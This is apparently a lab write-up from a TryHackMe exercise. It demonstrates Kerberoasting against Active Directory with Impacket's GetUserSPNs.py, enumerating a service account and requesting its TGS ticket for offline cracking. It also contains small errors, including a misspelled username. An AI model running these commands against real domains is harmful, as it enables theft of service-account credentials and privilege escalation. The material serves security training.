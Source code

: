 **Kerberoasting**

Kerberoasting is a common AD attack to obtain AD tickets that helps with persistence. In order for this attack to work, an adversary must have access to **SPN (Service Principal Name)** accounts such as IIS User, MSSQL, etc. The Kerberoasting attack involves requesting a Ticket Granting Ticket (**TGT**) and Ticket Granting Service (**TGS**). This attack's end goal is to enable privilege escalation and lateral network movement.

Let's do a quick demo about the attack. First, we need to find an SPN account(s) using ```GetUserSPNs.py``` script:
```
GetUserSPNs.py -dc-ip <DomainController_IP> <domain>/<username>
```
**ex**:
```
GetUserSPNs.py -dc-ip 10.10.73.127 THM.red/thm
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
ServicePrincipalName          Name     MemberOf  PasswordLastSet             LastLogon  Delegation
----------------------------  -------  --------  --------------------------  ---------  ----------
http/creds-harvestin.thm.red  svc-user            2022-06-04 00:15:18.413578  
```
We see a service running and ```svc-user``` is the user running it.<br>
we can send a request to get a **TGS** ticket for the ```srv-user``` user using the ```-request-user``` argument:
```
GetUserSPNs.py -dc-ip 10.10.73.127 THM.red/thm -request-user svc-user
```
































